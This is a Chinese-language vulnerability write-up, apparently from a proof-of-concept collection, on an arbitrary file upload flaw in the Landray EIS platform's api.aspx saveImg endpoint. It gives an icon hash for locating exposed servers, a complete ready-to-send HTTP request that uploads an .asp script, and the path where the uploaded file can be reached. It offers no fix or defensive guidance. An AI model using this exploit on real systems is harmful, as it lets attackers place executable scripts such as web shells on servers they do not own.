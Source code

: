 # 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

## 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

蓝凌EIS 智慧协同平台

## 网络测绘

```
icon_hash="953405444"
```

## 漏洞复现

登陆页面

![image-20231116141557650](images/image-20231116141557650.png)

poc

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

![image-20231116141617020](images/image-20231116141617020.png)

```
/files/editor_img/xxx/xxx.asp
```


